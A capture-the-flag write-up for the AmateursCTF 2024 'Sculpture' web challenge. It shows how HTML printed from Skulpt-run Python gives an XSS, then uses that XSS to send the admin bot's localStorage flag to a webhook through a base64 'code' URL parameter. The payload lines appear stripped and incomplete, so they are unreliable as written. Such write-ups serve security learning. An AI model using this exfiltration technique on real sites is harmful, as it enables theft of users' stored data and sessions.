



# Web/Sculpture

## Challenge Description

Client side rendered python turtle sculptures, why don't we play around with them.

Remote (for use in admin bot): https://amateurs-ctf-2024-sculpture-challenge.pages.dev Admin Bot

[index.html](./assets/index.html) | [admin-bot-excerpt.js](./assets/admin-bot-excerpt.js)
## Challenge Overview



The challenge contains a simple input box with a `run` button. According to the challenge description we should be able to run python code and use the turtle module. 

Going through the `index.html` file and doing a bit more research, you can find that the website is using `Skulpt` to execute the python code. The webpage is taken from the documentation of Skulpt -- [Using Skulpt](https://skulpt.org/using.html)

```py
import turtle

t = turtle.Turtle()
t.forward(100)

print "Hello World" 
```

Entering this example code given in the input area runs the code and displays the output.

[output](./assets/images/output1.png)

Analyzing the admin bot, it simply visits the url we provide and stores the flag in the localStorage. So we are most probably required to find an XSS and then retrieve this flag using the admin bot. 

The admin bot also applies a regex to check whether the url we send is starting from `https://amateurs-ctf-2024-sculpture-challenge.pages.dev/`.

## Exploit

Since we can execute python code, my first approach was to try and obtain a RCE by using something like `os module` but that didn't work.

But it was easy to find an XSS once you notice that the `print` commands prints whatever sting we give on the webpage, thus it means we can potentially execute even XSS payloads.

```py
print ""
```

And that was the solution. Running this simple payload gives us an XSS.

```py
print "?flag='+localStorage.getItem('flag'))\">"
```

Thus we can use the above payload to send the flag from the localstorage to our webhook. We can check the exploit locally by running the `localStorage.setItem("flag", "flag{testFlag}")` and then running the above exploit to see if we get the flag on our webhook.



Now we just need to figure out how to send this code to the admin bot. 

```js
document.addEventListener("DOMContentLoaded",function(ev){
    document.getElementById("yourcode").value = atob((new URLSearchParams(location.search)).get("code"));
    runit();
});
```

In the `index.html` file we can find this code to send the payload using `code` get parameter. And we need to base64 encode our payload.

Thus the final payload we need to send is `https://amateurs-ctf-2024-sculpture-challenge.pages.dev/?code=<base64 encoded payload>`

Sending this to the admin bot gives us our flag.


